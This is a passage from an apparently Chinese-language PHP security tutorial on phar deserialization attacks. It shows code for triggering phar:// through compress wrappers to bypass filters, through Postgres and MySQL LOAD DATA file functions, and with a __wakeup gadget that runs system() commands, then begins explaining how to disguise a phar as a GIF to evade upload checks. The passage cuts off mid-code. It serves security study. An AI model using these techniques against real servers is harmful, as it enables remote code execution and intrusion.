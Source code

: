     当环境限制了phar不能出现在前面的字符里。可以使用compress.bzip2://和compress.zlib://绕过

    ```php
    $z = 'compress.bzip2://phar:///home/sx/test.phar/test.txt';
    $z = 'compress.zlib://phar:///home/sx/test.phar/test.txt';
    ```

*   Postgres数据库

    ```php
    <?php
    $pdo = new PDO(sprintf("pgsql:host=%s;dbname=%s;user=%s;password=%s", "127.0.0.1", "postgres", "sx", "123456"));
    @$pdo->pgsqlCopyFromFile('aa', 'phar://test.phar/aa');
    ```

    `pgsqlCopyToFile`和`pg_trace`同样也是能使用的，只是它们需要开启phar的写功能。

*   MySQL

    `LOAD DATA LOCAL INFILE`也会触发这个`php_stream_open_wrapper`

    ```php
    //配置一下mysqld:
    //[mysqld]
    //local-infile=1
    //secure_file_priv=""
    
    
    <?php
    class A {
        public $s = '';
        public function __wakeup () {
            system($this->s);
        }
    }
    $m = mysqli_init();
    mysqli_options($m, MYSQLI_OPT_LOCAL_INFILE, true);
    $s = mysqli_real_connect($m, 'localhost', 'root', '123456', 'easyweb', 3306);
    $p = mysqli_query($m, 'LOAD DATA LOCAL INFILE \'phar://test.phar/test\' INTO TABLE a  LINES TERMINATED BY \'\r\n\'  IGNORE 1 LINES;');
    ```

*   ...

#### 1.5.4 绕过方式

*   将phar伪造成其他格式的文件，绕过上传检测

    php识别phar文件是通过其文件头的stub，更确切一点来说是`__HALT_COMPILER();?>`这段代码，对前面的内容或者后缀名是没有要求的。那么我们就可以通过**添加任意的文件头+修改后缀名的方式**将phar文件伪装成其他格式的文件。

    ```php
    //伪造成gif文件
    <?php
        class TestObject {
        }
    